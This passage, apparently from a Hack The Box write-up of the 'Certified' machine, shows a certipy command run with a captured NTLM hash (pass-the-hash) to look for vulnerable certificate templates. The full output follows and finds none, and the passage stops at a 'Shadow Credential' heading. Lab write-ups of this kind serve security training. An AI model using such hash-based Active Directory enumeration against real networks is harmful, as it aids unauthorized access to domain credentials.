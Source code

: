 There’s no interesting files in `management_svc` or any other home directory that management\_svc can access.

#### ADCS

I’ll run `certipy` as management\_svc to look for vulnerable templates, but the output is exactly the same as the previous run with judith.mader:

```

oxdf@hacky$ certipy find -vulnerable -u management_svc -hashes :a091c1832bcdd4677c28b5a6a1295584 -dc-ip 10.10.11.41 -stdout 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'certified-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates                   : [!] Could not find any certificate templates

```

### Shadow Credential
